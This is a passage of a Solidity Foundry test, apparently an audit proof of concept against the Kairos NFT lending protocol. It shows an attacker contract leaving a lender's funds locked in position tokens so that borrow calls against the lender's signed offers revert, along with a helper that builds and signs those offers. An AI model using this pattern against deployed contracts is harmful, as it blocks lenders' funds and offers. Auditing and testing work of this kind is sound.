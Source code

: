 ```solidity
    nft2.setApprovalForAll(address(kairos), true);

    //will revert because lender's funds are locked
    //in position tokens
    kairos.borrow(nft2tokenid1_args);

    //in other words, the attacker ie address(this) has made it so that
    //none of the lender's offers will go through on kairos
    //or any other platform until the lender unlocked their position tokens
    //back to money

    vm.stopPrank();
    return;
  }

  function generateBorrowargs(
    address nft_contract,
    uint256 tokenid,
    uint256 ltv
  ) internal returns (BorrowArg[] memory myargs) {
    myargs = new BorrowArg[](1);
    myargs[0].nft.implem = IERC721(nft_contract);
    myargs[0].nft.id = tokenid;

    myargs[0].args = new OfferArg[](1);
    myargs[0].args[0].amount = ltv;

    myargs[0].args[0].offer.assetToLend = money;
    myargs[0].args[0].offer.loanToValue = ltv;
    myargs[0].args[0].offer.duration = 2 weeks;
    myargs[0].args[0].offer.expirationDate = block.timestamp + 2 hours;
    myargs[0].args[0].offer.tranche = 0;

    myargs[0].args[0].offer.collateral.implem = IERC721(address(nft_contract));
    myargs[0].args[0].offer.collateral.id = tokenid;

    bytes32 mydigest = kairos.offerDigest(myargs[0].args[0].offer);

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(pkey, mydigest);

    myargs[0].args[0].signature = bytes.concat(r, s, bytes1(v));
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
  ) public virtual override returns (bytes4) {
    return this.onERC721Received.selector;
  }

  receive() external payable {
    //console2.log("receive");
  }

  fallback() external payable {
    //console2.log("fallback from", msg.sender);
  }
}

```
